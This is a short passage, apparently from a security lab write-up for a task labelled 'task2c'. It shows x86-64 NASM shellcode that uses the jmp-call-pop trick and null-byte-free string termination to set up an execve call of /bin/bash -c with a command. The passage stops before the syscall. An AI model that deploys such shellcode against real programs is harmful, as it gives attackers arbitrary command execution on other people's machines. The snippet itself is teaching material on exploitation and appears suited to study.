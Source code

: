 ![task2c](task2c.png)

```nasm
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx           ; rbx points to the string area

        ; Set up /bin/bash string termination
        xor al, al
        mov [rbx+9], al  ; Terminate /bin/bash

        ; Set up -c string termination
        mov [rbx+12], al ; Terminate -c

        ; Set up command string termination
        mov [rbx+31], al ; Terminate the command string

        ; Set up argv array
        lea rax, [rbx]        ; /bin/bash string
        mov [rbx+32], rax     ; argv[0]

        lea rax, [rbx+10]     ; -c string
        mov [rbx+40], rax     ; argv[1]

        lea rax, [rbx+13]     ; command string
        mov [rbx+48], rax     ; argv[2]

        xor rax, rax
        mov [rbx+56], rax     ; argv[3] = NULL

        ; Execute execve
        mov rdi, rbx          ; First arg: pathname
```